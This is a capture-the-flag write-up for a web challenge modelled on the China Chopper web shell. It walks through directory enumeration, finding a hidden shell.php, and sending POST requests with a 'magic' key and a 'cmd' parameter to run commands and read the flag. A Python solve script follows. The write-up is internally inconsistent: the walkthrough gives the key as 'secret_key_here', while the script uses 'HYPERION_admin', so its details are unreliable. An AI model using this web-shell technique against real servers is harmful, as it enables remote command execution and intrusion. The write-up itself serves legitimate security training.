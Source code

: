 # The little cyborg that could

>> Pwn - hard
>
> TBD

## Challenge motivation

The challenge is based upon the very famous China Chopper web shell, discussed in the mandiant report [1].
The challenge is designed to test the participants' ability to identify and exploit a web shell hidden within a seemingly innocent PHP website.
However, we had to alter some parts to prevent getting ourselves completely pwned.

## Writeup


## Reconnaissance

Initial observation shows a basic PHP website displaying phpinfo():
```
https://uithack-2.td.org.uit.no:9003
```

2. Looking at the source code doesn't reveal anything immediately suspicious, but the presence of phpinfo() suggests we should look for other PHP files.

3. Basic directory enumeration reveals the existence of shell.php:
```bash
$ gobuster dir -u https://uithack-2.td.org.uit.no:9003 -w /usr/share/wordlists/dirb/common.txt -x php
...
/index.php (Status: 200)
/shell.php (Status: 200)
```

## Discovery and Exploitation

1. Accessing shell.php directly shows a blank page, suggesting it might require specific parameters.

2. Looking at the HTTP POST parameters using Burp Suite or similar tools reveals that the page processes POST requests.

3. Testing common parameter names reveals that the page accepts a "magic" parameter:
```http
POST /shell.php HTTP/1.1
Host: uithack-2.td.org.uit.no:9003
Content-Type: application/x-www-form-urlencoded

magic=test
```

4. After trying common values, we discover the correct magic key is "secret_key_here":
```http
POST /shell.php HTTP/1.1
Host: uithack-2.td.org.uit.no:9003
Content-Type: application/x-www-form-urlencoded

magic=secret_key_here
```

5. Once authenticated with the correct magic key, the shell accepts a "cmd" parameter that allows command execution:
```http
POST /shell.php HTTP/1.1
Host: uithack-2.td.org.uit.no:9003
Content-Type: application/x-www-form-urlencoded

magic=secret_key_here&cmd=ls
```

6. Reading the flag:
```http
POST /shell.php HTTP/1.1
Host: uithack-2.td.org.uit.no:9003
Content-Type: application/x-www-form-urlencoded

magic=secret_key_here&cmd=cat /flag.txt
```

Response:
```
UiTHack25{02_quota_revoked_please_submit_for_disposal}
```

## Python Solution Script
```python
import requests

url = "https://uithack-2.td.org.uit.no:9003/shell.php"
data = {
    "magic": "HYPERION_admin",
    "cmd": "cat /flag.txt"
}

response = requests.post(url, data=data)
print(response.text.strip())
```


### References

[1] <https://www.mandiant.com/sites/default/files/2021-09/rpt-china-chopper.pdf>
[2] <https://www.virustotal.com/gui/file/c4bfc3d39c1d01fa01b2100f1e1c8a58e74a2164fe6fae3c320d23ca3682e058/detection>